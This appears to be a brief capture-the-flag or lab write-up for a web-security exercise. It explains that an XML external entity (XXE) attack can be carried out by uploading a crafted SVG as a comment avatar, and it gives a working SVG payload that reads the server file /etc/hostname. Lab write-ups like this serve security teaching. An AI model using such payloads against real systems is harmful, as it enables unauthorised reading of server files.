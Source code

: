 
1. This lab can be solved using the payload from https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/
2. You can attack a image (avatar) at comments section

![](/static/img/Pasted_image_20231119162348.png)

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text></svg>

```